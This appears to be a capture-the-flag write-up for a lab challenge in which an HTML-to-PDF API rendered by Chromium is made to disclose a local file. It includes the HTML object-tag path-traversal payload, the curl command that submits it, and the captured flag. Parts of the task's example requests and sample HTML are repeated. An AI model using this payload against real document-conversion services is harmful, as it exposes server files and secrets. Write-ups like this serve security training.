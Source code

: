 # API Security

## Task
API security is becoming more and more a target for hackers. Please hack the api service and disclose the flag /tmp/secret/flag.txt

Please start the docker from RESOURCES. Example API requests:
```
curl --request POST \
    --url 'https://<server>/convert/markdown' \
    --header 'Content-Type: multipart/form-data' \
    --form files=@index.html \
    -o markdown.pdf

curl --request POST \
    --url https://<server>/convert/url \
    --header 'Content-Type: multipart/form-data' \
    --form remoteURL=https://localhost:3000 \
    --form marginTop=0 \
    --form marginBottom=0 \
    --form marginLeft=0 \
    --form marginRight=0 \
    -o url.pdf

curl --request POST \
    --url https://<server>/convert/html \
    --header 'Content-Type: multipart/form-data' \
    --form files=@index.html \
    --form resultFilename='foo.pdf' \
    -o html.pdf

curl --request POST \
    --url 'https://<server>/convert/markdown' \
    --header 'Content-Type: multipart/form-data' \
    --form files=@index.html \
    -o markdown.pdf
curl --request POST \
    --url 'https://<server>/convert/markdown' \
    --header 'Content-Type: multipart/form-data' \
    --form files=@index.html \
    -o markdown.pdf

curl --request POST \
    --url https://<server>/convert/url \
    --header 'Content-Type: multipart/form-data' \
    --form remoteURL=https://localhost:3000 \
    --form marginTop=0 \
    --form marginBottom=0 \
    --form marginLeft=0 \
    --form marginRight=0 \
    -o url.pdf

curl --request POST \
    --url https://<server>/convert/html \
    --header 'Content-Type: multipart/form-data' \
    --form files=@index.html \
    --form resultFilename='foo.pdf' \
    -o html.pdf

curl --request POST \
    --url 'https://<server>/convert/markdown' \
    --header 'Content-Type: multipart/form-data' \
    --form files=@index.html \
    -o markdown.pdf

```
Example index.html to convert

```
<!DOCTYPE html>
<html>
<head>
    <meta charset='utf-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <title>Test Page</title>
    <meta name='viewport' content='width=device-width, initial-scale=1'>
    <link rel='stylesheet' type='text/css' media='screen' href='main.css'>
    <script src='main.js'></script>
</head>
<body>
    <h1>API Security</h1>
    Hack me if you can. Disclose the file <code>/tmp/secret/flag.txt</code>

</body>
</html>
<!DOCTYPE html>
<html>
<head>
    <meta charset='utf-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <title>Test Page</title>
    <meta name='viewport' content='width=device-width, initial-scale=1'>
    <link rel='stylesheet' type='text/css' media='screen' href='main.css'>
    <script src='main.js'></script>
</head>
<body>
    <h1>API Security</h1>
    Hack me if you can. Disclose the file <code>/tmp/secret/flag.txt</code>

</body>
</html>
```

Goal: Exploit the api service. Disclose the following file from the api service: /tmp/secret/flag.txt and you will find the flag.


## Solution

The API seems to render a given HTML file to a PDF. In the "creator" and "producer" attributes of a generated PDF its shown, that a Chromium Browser is used to render the html. This can be used, since we can include also local files, if the Chromium Renderer does not prevent this properly. I tried different techniques, a simple object inclusion does the trick a the end:

index.html file:
```
<object data="../../../../../../../../../../tmp/secret/flag.txt" type="text/plain"
width="500" style="height: 300px">
```

API Command:
```
curl -v --request POST \
    --url "https://36c02be8-c9d1-4040-add7-24c8bc413a7d.idocker.vuln.land/convert/html" \
    --header 'Content-Type: multipart/form-data' \
    --form files=@index.html \
    -o markdown.pdf
```

The rendered "markdown.pdf" contained the flag: GOLDNUGGET=1d146b90-ce14-4eb6-8e0b-e0da120463ef

